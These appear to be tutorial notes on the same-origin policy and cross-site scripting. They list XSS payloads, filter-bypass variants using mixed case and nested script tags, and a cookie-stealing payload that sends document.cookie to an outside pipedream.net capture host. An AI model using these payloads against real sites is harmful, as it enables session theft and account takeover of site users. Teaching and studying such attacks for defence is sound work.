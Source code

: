 # Tutorial 7

SOP limits an origin's 'resources' (e.g. scripts) so they can't run wild and interact with other origin's resources!

Make the website interact with only with itself

## XSS Payloads

``` html
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<marquee onstart=alert("1990s")>
```

Bypassing filters

``` html
<script>alert(1)</script> fails
<sCript>alert(1)</sCript>
<scr<script>ipt>alert(1)</script>
```

Stealing cookies:

Use burp to bypass any length restrictions:

``` html
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
```

Exfiltration:

``` html
<script>document.write('<img src="https://no0mubyk0uwwe.x.pipedream.net/?c='+document.cookie+'')</script>
```

Useful links

* <https://csp-evaluator.withgoogle.com/>
* <https://owasp.org/www-community/xss-filter-evasion-cheatsheet>
